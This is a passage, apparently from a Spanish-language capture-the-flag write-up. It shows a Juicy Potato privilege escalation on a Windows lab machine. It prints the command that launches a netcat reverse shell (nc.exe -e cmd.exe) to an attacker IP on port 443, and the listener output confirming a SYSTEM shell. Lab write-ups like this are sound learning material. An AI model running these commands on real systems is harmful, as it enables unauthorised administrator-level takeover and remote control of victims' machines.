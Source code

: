 Ahora nos ponemos en escucha a través del puerto 443 y ejecutamos el *Juicy Potato*:

```bash
JP.exe -a "/c C:\Windows\Temp\Privesc\nc.exe -e cmd.exe 10.10.14.13 443" -t * -p C:\Windows\System32\cmd.exe -l 4444
JP.exe -a "/c C:\Windows\Temp\Privesc\nc.exe -e cmd.exe 10.10.14.13 443" -t * -p C:\Windows\System32\cmd.exe -l 4444
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 4444
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\Windows\Temp\Privesc>
```

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.11] 49752
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

whoami
whoami
nt authority\system

C:\Windows\system32>
```

Ya somos administradores del sistema y podemos visualizar la flag *root.txt*.
